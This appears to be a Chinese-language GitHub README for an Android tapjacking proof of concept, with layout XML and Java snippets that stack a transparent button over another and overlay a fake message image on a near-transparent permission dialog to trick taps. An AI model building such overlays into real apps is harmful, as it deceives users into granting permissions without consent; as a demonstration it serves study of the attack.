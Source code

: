 # Tapjacking_Android
1.	页面整体采用<RelativeLayout>相对布局，其中start按钮和premession按钮采用<FrameLyout>布局方法，将Start按钮覆盖在Premession按钮上，并设置start的透明度alpha为0.这样就使用户以为在点击Premession实际上是在触发Start
2.	点击Start，将加载一个image图像，同时触发一个模拟权限获取的提示框，并将提示框的主体背景设为透明，同时将刚刚加载的伪造消息提示的图像覆盖到权限提示框上，仅留下权限提示框的确认按钮，这样用户就误以为自己在点击信息提示的确认，其实是再点权限确认。
3.	部分核心代码
布局文件（activity_main.xml）：
    <FrameLayout
        android:layout_width="wrap_content"
        android:layout_height="wrap_content">
        <Button
            android:id="@+id/button"
            android:layout_width="match_parent"
            android:layout_height="match_parent"
            style="@style/btnStyle"
            android:text="premession"
            />
        <Button
            android:id="@+id/btnStart"
            style="@style/btnStyle"
            android:layout_width="137dp"
            android:layout_height="wrap_content"
            android:onClick="startTJService"
            android:text="@string/strStart"
            android:alpha="0"/>
</FrameLayout>

MainActivity.java：
this.startService(service);
        AlertDialog.Builder bb = new AlertDialog.Builder(this);
        bb.setPositiveButton("confrim",new DialogInterface.OnClickListener(){
            public void onClick(DialogInterface arg0,int arg1){
                Toast t = (Toast) Toast.makeText(getApplicationContext(),"你上当了!!",Toast.LENGTH_LONG);
                t.show();
                arg0.dismiss();
            }
        });
        final AlertDialog dialog = bb.create();
        WindowManager.LayoutParams lp = dialog.getWindow().getAttributes();
        lp.alpha=0.1f;
        dialog.getWindow().setAttributes(lp);
        bb.setMessage("应用Tap_jacking正在申请联系人权限");
        bb.setTitle("权限获取");
        dialog.show();

ToastService.java:
    public void onCreate() {
        super.onCreate();
        t = new Timer();
        context = getApplicationContext();
        jam = new Toast(context);
        ImageView img = new ImageView(context);
        img.setImageResource(R.drawable.ic_terms_message);//加载假的信息提示
        jam.setView(img);
    }

